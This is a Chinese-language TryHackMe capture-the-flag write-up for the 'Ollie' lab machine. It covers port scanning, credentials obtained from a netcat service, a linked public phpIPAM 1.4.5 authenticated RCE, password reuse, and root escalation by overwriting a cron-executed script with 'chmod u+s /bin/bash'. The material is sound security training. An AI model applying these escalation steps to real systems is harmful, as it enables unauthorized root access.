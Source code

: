 ```yaml
---
sidebar_position: 108
tags: [Easy, Linux, 定时任务, 密码重用]
title: "Ollie"
description: "Ollie"
sidebar_label: "Ollie"
slug: /tryhackme/108
---
```


# Ollie

## 端口扫描

```bash
root@ip-10-10-2-75:~/ollie# nmap -sTCV -p 22,80,1337 --min-rate 1000 10.10.212.155

Starting Nmap 7.60 ( https://nmap.org ) at 2023-09-22 08:35 BST
Nmap scan report for ip-10-10-212-155.eu-west-1.compute.internal (10.10.212.155)
Host is up (0.00028s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /immaolllieeboyyy
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-title: Ollie :: login
|_Requested resource was http://ip-10-10-212-155.eu-west-1.compute.internal/index.php?page=login
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequest, GenericLines: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, 
|     It's been a while. What are you here for?
|   DNSVersionBindReq: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, 
|     version
|     bind
|     It's been a while. What are you here for?
|   GetRequest: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Get / http/1.0
|     It's been a while. What are you here for?
|   HTTPOptions: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Options / http/1.0
|     It's been a while. What are you here for?
|   Help: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Help
|     It's been a while. What are you here for?
|   NULL, RPCCheck: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name?
|   RTSPRequest: 
|     Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.
|     What is your name? What's up, Options / rtsp/1.0
|_    It's been a while. What are you here for?
```

## 1337

其实实际上我们都是先看 80 端口进行测试的, 不过这个比较小特殊一点我们需要从这里下手, 回答了一些问题后我们得到的一个账号可以作为 80 服务的登陆密码

```bash
root@ip-10-10-2-75:~/ollie# nc 10.10.212.155 1337
Hey stranger, I'm Ollie, protector of panels, lover of deer antlers.

What is your name? admin
What's up, Admin! It's been a while. What are you here for? passsword
Ya' know what? Admin. If you can answer a question about me, I might have something for you.

What breed of dog am I? I'll make it a multiple choice question to keep it easy: Bulldog, Husky, Duck or Wolf? Bulldog 
You are correct! Let me confer with my trusted colleagues; Benny, Baxter and Connie...
Please hold on a minute
Ok, I'm back.
After a lengthy discussion, we've come to the conclusion that you are the right person for the job.Here are the credentials for our administration panel.

                    Username: admin

                    Password: OllieUnixMontgomery!

PS: Good luck and next time bring some treats!
```

## 80

在登陆之后根据页面的显示我们可以知道这是一个 phpIPAM 1.4.5 的 CMS 并且了解到其存在 RCE 漏洞 [phpIPAM 1.4.5 - Remote Code Execution (RCE) (Authenticated)](https://www.exploit-db.com/exploits/50963) 利用我们之前得到的信息进行测试

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132537.png)

## 后渗透

### www-data

使用上面得到的 RCE 获取 Shell

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132537-1.png)

### www-data —> ollie

使用我们之前获得的密码进行登陆 ollie 用户

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132537-2.png)

### ollie —> root

检测定时任务我发现系统一直在执行一个程序

![Untitled](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-132537-3.png)

并且我发现这个程序我们有权限进行修改

```bash
ollie@hackerdog:/tmp$ find / -name feedme 2>/dev/null
/usr/bin/feedme
ollie@hackerdog:/tmp$ ls -al /usr/bin/feedme
-rwxrw-r-- 1 root ollie 30 Feb 12  2022 /usr/bin/feedme
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

# This is weird?
```

所以我对这个文件内容进行了修改并等待其执行

```bash
ollie@hackerdog:/tmp$ cat << EOF > /usr/bin/feedme
> #!/bin/bash
> chmod u+s /bin/bash
> EOF
ollie@hackerdog:/tmp$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
ollie@hackerdog:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash

```

## 教训

1. 在筛查定时任务时一定要敏感
2. 密码重用问题也许如此